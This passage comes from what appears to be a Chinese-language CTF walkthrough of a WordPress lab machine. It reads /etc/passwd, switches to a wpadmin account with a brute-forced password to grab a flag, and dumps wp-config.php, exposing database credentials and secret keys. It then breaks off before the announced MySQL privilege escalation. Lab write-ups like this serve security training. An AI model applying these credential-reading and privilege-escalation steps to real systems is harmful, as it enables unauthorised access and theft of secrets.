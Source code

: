 ```
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
wpadmin:x:1001:1001::/home/wpadmin:/bin/bash
```

发现wpadmin账号





执行如下命令提权

su wpadmin (密码使用前面爆破的adam14)

提权成功，获取到第一个flag

```
wpadmin@wp:/var/www/html/wordpress$ cat /home/wpadmin/local.txt
153495edec1b606c24947b1335998bd9
```





## mysql提权

### 查看wordpress配置文件

查看wordpress配置文件`cat /var/www/html/wordpress/wp-config.php`

```
www-data@wp:/var/www/html/wordpress$ cat /var/www/html/wordpress/wp-config.php
<?php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'admin' );
define( 'DB_PASSWORD', 'Wp_Admin#123' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );

define( 'AUTH_KEY',         '-=<%h-&zmo1#bWHqHEib?bJt!)mOL7E+j{x7x;Hsc}t?xm?=kRfunrRmTUP;#8OS' );
define( 'SECURE_AUTH_KEY',  'A5#uw+^B_f:K]WNq@aoXLpD@bmMD/hev^UAf,^lTCX3@a1&7A(qLFS_{I=pYw(ET' );
define( 'LOGGED_IN_KEY',    '~*TFb3]y1^|G9j%?Z@F[63A+AAT<mndFo-H{q0P#Nz/qYN3da@UXyY6YP6`7QNmy' );
define( 'NONCE_KEY',        'bP88<WoD?9;eN0yM9A{+])!$(k[zp{:-.ZS6Fk*snlJN&GXU6Zy_)wEbqk>-? nn' );
define( 'AUTH_SALT',        'SX%VenTL%k&f%i8tFAhtf#svIc|nt.&t~R%zp=:n:Q%e0Ux?k,-j?ZAjZZ%;w1ih' );
define( 'SECURE_AUTH_SALT', '-e Z<w<q8F~Tm7IeNu2nSa^or=*B?bV*yRBa+4; My}cIJ]?L%j14RWghI,D^M^5' );
define( 'LOGGED_IN_SALT',   '}Z}fYC%Mv;;ON/h~$c2c,u[FZ>`YaiscN6UY&HCcXUVl{miUbX4a/ LdJ^AoL/Z{' );
define( 'NONCE_SALT',       'BQPaC,#p}PEcU^eC*Hwss>9~UCEKhv]tox~PN)?B.kSn%tC)V~pZ6RpOBR>80o5+' );

$table_prefix = 'wp_';

define( 'WP_DEBUG', false );

if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}
```
